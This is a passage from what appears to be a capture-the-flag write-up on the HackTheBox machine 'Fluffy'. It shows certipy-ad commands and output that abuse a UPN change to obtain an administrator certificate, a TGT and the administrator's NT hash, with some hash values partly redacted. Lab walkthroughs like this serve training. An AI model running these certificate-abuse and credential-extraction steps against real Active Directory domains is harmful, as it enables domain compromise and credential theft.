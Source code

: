 ```bash
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'

# Restore original UPN

└─$ certipy-ad account -u 'winrm_svc' -hashes 33bd09dcd697*************875767 -dc-ip 10.10.11.69 -upn ca_svc -user ca_svc update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc
[*] Successfully updated 'ca_svc'
```
{: .nolineno }

**Step 4: Authenticate as Administrator**
```bash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -dc-ip 10.10.11.69 -domain fluffy.htb
```
{: .nolineno }

**Results:**
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f67....a6e
```
{: .nolineno }

**Administrator Credentials Obtained:**
```
NT hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f67....a6e
```
{: .nolineno }

## 1️⃣1️⃣ Administrator Access
